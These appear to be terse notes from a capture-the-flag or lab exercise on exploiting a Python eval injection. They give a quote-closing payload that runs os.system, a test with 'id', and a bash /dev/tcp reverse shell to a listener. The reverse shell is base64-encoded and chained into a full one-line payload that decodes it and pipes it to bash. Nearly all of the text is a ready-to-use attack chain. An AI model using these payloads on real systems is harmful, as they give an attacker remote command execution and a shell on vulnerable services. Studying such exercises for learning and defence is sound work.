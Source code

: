 - Python injection :
- `') + str( <code>) #`
- ' to close query and then + str to enter into eval
-  # to comment everything after
- + operator to concatenate the output of another line separately.
	
- `') + str(__import__('os').system('id')) #`
- we get an output of user id 1000 svc

- now for reverse shell,
- open netcat listener or port you want

- exploit :
- `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
- in base 64 :
- `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80MjQyIDA+JjE=`

- full exploit combining everything :

- `') + str(__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNC84ODg4IDA+JjE=| base64 -d|bash')) #`


- [ ] 2.1.1 (page 20)